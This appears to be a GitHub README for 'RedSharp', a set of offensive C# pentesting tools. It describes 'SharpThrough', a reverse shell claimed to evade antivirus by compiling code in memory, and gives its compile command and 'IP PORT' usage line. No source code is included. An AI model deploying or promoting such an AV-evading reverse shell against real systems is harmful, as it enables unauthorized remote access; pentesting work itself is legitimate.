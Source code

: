 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:sharpthrough.exe Program.cs```  
```
Usage :
sharpthrough.exe IP PORT
```
